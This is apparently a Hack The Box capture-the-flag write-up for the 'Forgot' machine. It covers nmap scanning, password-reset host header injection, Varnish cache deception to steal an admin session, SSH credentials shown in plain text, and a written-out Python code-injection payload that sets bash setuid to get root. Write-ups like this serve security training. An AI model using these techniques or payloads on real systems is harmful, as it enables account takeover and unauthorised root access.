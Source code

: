 Sup, this is write up for the box Forgot from Hackthebox. Let's start with nmap:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-06 09:39 EST
Nmap scan report for 10.10.11.188 (10.10.11.188)
Host is up (0.058s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Werkzeug/2.1.2 Python/3.8.10
```

There are two ports open ssh and http. We see that the site is running python. Looking at the error when trying to visit site that surely doesn't
exist we see familiar flask not found page. 

IMG1

On the main page is login form. That is not vulnerable to sql injection.

IMG2

Trying different usernames doesn't return different error when trying to log in meaning we can't do username enumeration based on error message.
Looking at the source code there is username: robert-dev-87120 (this one is different for each htb player so people don't collide when playing the box).

We can request password recovery link. With that we can try to get the server to send the reset link to our server with host header injection (for example https://medium.com/@tameemkhalid786/host-header-injection-on-password-reset-functionality-an-easy-p2-5c6263c2e3d4).

Now we start netcat or python server on our machine:

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
``` 

After that we catch the request in burp:

IMG3

And we get reset link on our python server:

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.188 - - [06/Mar/2023 10:07:28] code 404, message File not found
10.10.11.188 - - [06/Mar/2023 10:07:28] "GET /reset?token=HpnpS2AIvUsIX8oF9KouawOmYQfhr9CjGXBjQMCAXEJxZZWFvKHXGL653pam6IKBnJdIpAJC94Hnzaq0cordSQ%3D%3D HTTP/1.1" 404 -
```

Now let's visit the link and change roberts password to whatever we want. Now we are in on the site. 

IMG4

In navbar there are four things the last one being disabled. We can either enable it or just visit admin_tickets. But we get access denied. 

If we curl the site with '-I' to see headers we get this:

```
# curl -I http://10.10.11.188/
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Fri, 10 Mar 2023 14:48:40 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 5186
X-Varnish: 196623 196621
Age: 9
Via: 1.1 varnish (Varnish/6.2)
Accept-Ranges: bytes
Connection: keep-alive
``` 

There is a Varnish reverse proxy responsible for caching. It doesn't cache the default page as there is Age:0 in headers but `/static` gets cached. 
We can send link through `/escalate` that admins click with /static and should save his cookie so we can view the ssh creds in the ticket.

IMG5

We will wait some time so it doesn't cache our request without the admin cookie. 

IMG6

And now we have creds for ssh: `diego:dCb#1!x0%gjq` and we can login:

```
# ssh diego@10.10.11.188                                                                                                                                                                                                            
diego@10.10.11.188's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-132-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 10 Mar 2023 04:09:52 PM UTC

  System load:           0.03
  Usage of /:            65.9% of 8.72GB
  Memory usage:          16%
  Swap usage:            0%
  Processes:             220
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.188
  IPv6 address for eth0: dead:beef::250:56ff:feb9:768


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Nov 18 10:51:30 2022 from 10.10.14.40
diego@forgot:~$ 
```

Having password we can start looking for ways to escalate privileges with `sudo -l`:

```
diego@forgot:~$ sudo -l
Matching Defaults entries for diego on forgot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User diego may run the following commands on forgot:
    (ALL) NOPASSWD: /opt/security/ml_security.py
```

Don't know much about python so I will just look at different functions to use for privesc.
This one stood out:

```
preprocess_input_exprs_arg_string
```

There is code injection CVE for this https://github.com/advisories/GHSA-75c9-jrh4-79mc
The script checks for XSS and when it detects it it gets passwed to the `preprocess_input_exprs_arg_string` function.

I'll use this payload to make bash setuid which is the easiest way to get root. For some reason it had problem with `+s`

```
hello=exec("""\nimport os\nos.system('chmod 4777 /bin/bash')""");#<script>alert('xss')</script>
```

After that I can just simply run the script with sudo and make bash setuid.

```
iego@forgot:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
diego@forgot:~$ sudo /opt/security/ml_security.py
2023-03-11 23:17:02.168590: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
2023-03-11 23:17:02.168625: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.
chmod: invalid mode: ‘s’
Try 'chmod --help' for more information.
chmod: invalid mode: ‘s’
Try 'chmod --help' for more information.
chmod: invalid mode: ‘s’
Try 'chmod --help' for more information.
diego@forgot:~$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1183448 Apr 18  2022 /bin/bash
diego@forgot:~$ /bin/bash -p
bash-5.0# id
uid=1000(diego) gid=1000(diego) euid=0(root) groups=1000(diego)
```

It still has the problem with s but we got root shell anyway. This means the end of this box. Thanks for reading u can hit me up on twitter https://twitter.com/Vojtech1337 and until next time.
